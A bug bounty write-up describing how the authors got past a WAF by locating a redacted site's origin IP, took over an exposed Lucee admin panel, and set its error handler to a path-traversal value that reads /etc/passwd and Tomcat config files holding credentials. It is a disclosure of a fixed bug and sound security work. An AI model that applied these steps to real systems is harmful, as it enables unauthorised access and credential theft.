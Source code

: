 ```yaml
---
layout: post
title: "Bug Bounty - Information Disclosure through error message + WAF Bypass led to Local File Inclusion"
---
```

## Bug Bounty - Information Disclosure through error message + WAF Bypass led to Local File Inclusion

# Summary:
This is a writeup about a critical bug that me and [0xcela](https://hackerone.com/cela) found while poking around. This bug is undisclosed due to private program so I'm going to refer the company as **redacted.com**
&nbsp;

A vulnerable directory was found which led to an information disclosure through error message. After trying different types of attacks we were blocked by Incapsula WAF, so we managed to find the origin ip to further continue our research where we found different endpoints which led to the same information disclosure through error message.


# Exploitation:
While bruteforcing hidden directories and looking through waybackurls, we found a path **/cfapps/** which output the error as shown in the picture below.
&nbsp;
![full path disclosure]({{ site.baseurl }}/assets/images/image2.png){:.container}

&nbsp;

We also found some endpoints that accepted parameters but soon as we tried something suspicious we were blocked and we couldn't access that site anymore. So we decided to look through censys.io search engine without any specific filter only "redacted.com" and we found the origin ip.

To prove that we found the origin ip, we could compare the body and site headers.
&nbsp;
{% highlight bash %}
> $ nmap -p80,443 redacted.com
80/tcp open http Incapsula CDN httpd
443/tcp open ssl/http Incapsula CDN http

> $ nmap -p80,443 -sV IP
PORT STATE SERVICE VERSION
80/tcp open http Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
443/tcp open ssl/http Apache Tomcat/Coyote JSP engine 1.1

> $ curl https://IP/cfapps/ -k -v
<!doctype html>
<title>External Apps</title>
..[SNIP]..
<div class="center padding">
{ts '2019-05-28 13:06:26'}
</div>
..[SNIP]..
</html>

> $ curl https://redacted.com/cfapps/ -v
<!doctype html>
<title>External Apps</title>
..[SNIP]..
<div class="center padding">
{ts '2019-05-28 13:07:53'}
</div>
..[SNIP]..
</html>
{% endhighlight %}
&nbsp;

We decided to report this because we thought that it would count as valid bug as it was exposing full paths but..
&nbsp;
![h1 reply]({{ site.baseurl }}/assets/images/image3.png){:.container}
&nbsp;
We continued our research to come up with an attack vector. We managed to log in into Lucee framework then abused Error Mapping function. What this function does is that when an error occurs, it redirects to a default error which is stored in a local file, in our case we could change it to read sensitive files.
&nbsp;
After knowing that it uses Lucee framework, we browsed to https://IP/lucee/
&nbsp;

Lucee has a public admin interface by default which you can find the path on view-source of /lucee/ and is located on https://IP/lucee/lucee/admin/server.cfm
&nbsp;

This prompts for a new password, which we set to admin321. We could log out and log in again on **https://IP/lucee/lucee/admin/web.cfm**. Even after we set a new password we could still change it by browsing to /server.cfm
&nbsp;
Browsing to /lucee/lucee/admin/web.cfm?action=server.error we could change the function when the application receives an 404 or 500 error, we changed the 500 error from default value (/lucee/templates/error/error.cfm) to **../../../../../../../../../../etc/passwd.**
&nbsp;
![Lucee Interface]({{ site.baseurl }}/assets/images/image4.png){:.container}
&nbsp;

**To execute the error.cfm, we made a request on a page that returned eror 500**
```bash
curl -X GET \
https://IP/lucee/lucee/admin/web.cfm?action=debugging.logs&action2=detail&id=DCF806E56E1192D43C0A8B64EC573BC6
```
&nbsp;
**Response**:
HTTP/1.1 500 Internal Server Error
Content-Type: text/html;charset=UTF-8

> root:x:0:0:root:/root:/bin/bash
> bin:x:1:1:bin:/bin:/sbin/nologin
> daemon:x:2:2:daemon:/sbin:/sbin/nologin
> adm:x:3:4:adm:/var/adm:/sbin/nologin
> lp:x:4:7:lp:/var/spool/lpd:/sbin/nologin
> sync:x:5:0:sync:/sbin:/bin/sync
> shutdown:x:6:0:shutdown:/sbin:/sbin/shutdown
> halt:x:7:0:halt:/sbin:/sbin/halt
> mail:x:8:12:mail:/var/spool/mail:/sbin/nologin
> operator:x:11:0:operator:/root:/sbin/nologin
> games:x:12:100:games:/usr/games:/sbin/nologin
> ftp:x:14:50:FTP User:/var/ftp:/sbin/nologin
> nobody:x:99:99:Nobody:/:/sbin/nologin
> systemd-network:x:192:192:systemd Network Management:/:/sbin/nologin
> dbus:x:81:81:System message bus:/:/sbin/nologin
> polkitd:x:999:997:User for polkitd:/:/sbin/nologin
> chrony:x:998:996::/var/lib/chrony:/sbin/nologin
> sshd:x:74:74:Privilege-separated SSH:/var/empty/sshd:/sbin/nologin
> **raladmin:x:1000:1000::/home/raladmin:/bin/bash**
> sssd:x:997:994:User for sssd:/:/sbin/nologin
> nscd:x:28:28:NSCD Daemon:/:/sbin/nologin
> tcpdump:x:72:72::/:/sbin/nologin
> tss:x:59:59:Account used by the trousers package to sandbox the tcsd daemon:/dev/null:/sbin/nologin
> setroubleshoot:x:996:992::/var/lib/setroubleshoot:/sbin/nologin
> **webuser:x:1001:1001:webuser:/home/webuser:/bin/bash**
> postfix:x:89:89::/var/spool/postfix:/sbin/nologin
>{: style="color: red"}

&nbsp;
![passwd]({{ site.baseurl }}/assets/images/image5.png){:.container}
&nbsp;
We also managed to read ../../../../../../../../../../../../usr/share/tomcat/conf/server.xml
&nbsp;
There was some sensitive info located in this file, including web-ldap and azure cloud postgresql passwords

# Note:
- Security Team decided to rate this bug as critical
- Bounty awarded
- Vulnerability fixed